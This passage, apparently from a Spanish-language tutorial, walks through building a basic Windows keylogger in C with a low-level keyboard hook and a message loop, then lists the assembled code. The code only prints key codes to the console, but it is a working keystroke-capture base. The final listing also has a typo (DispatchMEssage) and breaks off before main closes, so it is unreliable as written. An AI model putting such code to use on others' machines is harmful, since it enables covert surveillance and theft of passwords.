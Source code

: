 Casi por último *Capturariamos Mnesajes del Sistema*:

```C

	........
	MSG msg;
    while (GetMessage(&msg, NULL, 0, 0)) {
        TranslateMessage(&msg);
        DispatchMessage(&msg);
    }
    ........
};
```

- `MSG msg`: Estructura que almacena mensajes del sistema opeartivo.
- `GetMessage`:
	- Escucha los mensajes del sistema y los para al programa.
	- Este loop permite que el program funcione continuamente, esperando eventos de teclado.
- `TransLateMessage` y `DispatchMessage`:
	- Procesan los mensajes capturados para que el sistema opeartivos puede manejarlos correctamente.}

Ahora sí, por último simplemente quedaría liberar el Hook al salir del programa:

```C
int main {
	.....
	UnhookWindowsHookEx(keyboardHook);
	return 0;
}
```

- `UnhookWindowsHookEx`:
	- Libera el hook para evitar que quede activo después de que el programa termine.
	- Esto es importante para liberar recursos en el sistema.

Finalmente nuestro código quedaría de la siguiente manera:

```C
#include <windows.h>
// We need interact with WinAPI, the windows.h module we help us
#include <stdio.h>

LRESULT CALLBACK LowLevelKeyboardProc(int nCode, WPARAM wParam, LPARAM lParam){
    if(nCode == HC_ACTION){
        KBDLLHOOKSTRUCT *kbdStruct = (KBDLLHOOKSTRUCT *)lParam;

        if(wParam == WM_KEYDOWN){
            printf("Key pressed: %d\n", kbdStruct->vkCode);
        };
    };
    return CallNextHookEx(NULL, nCode, wParam, lParam);
};

int main(){
    HHOOK keyboardHook = SetWindowsHookEx(WH_KEYBOARD_LL, LowLevelKeyboardProc, NULL, 0);

    if (keyboardHook == NULL){
        printf("Failed to install keyboard hook.\n");
        return 1;
    }

    printf("Key logger running...\n");

    MSG msg;
    while (GetMessage(&msg, NULL, 0, 0)){
        TranslateMessage(&msg);
        DispatchMEssage(&msg);
    }
```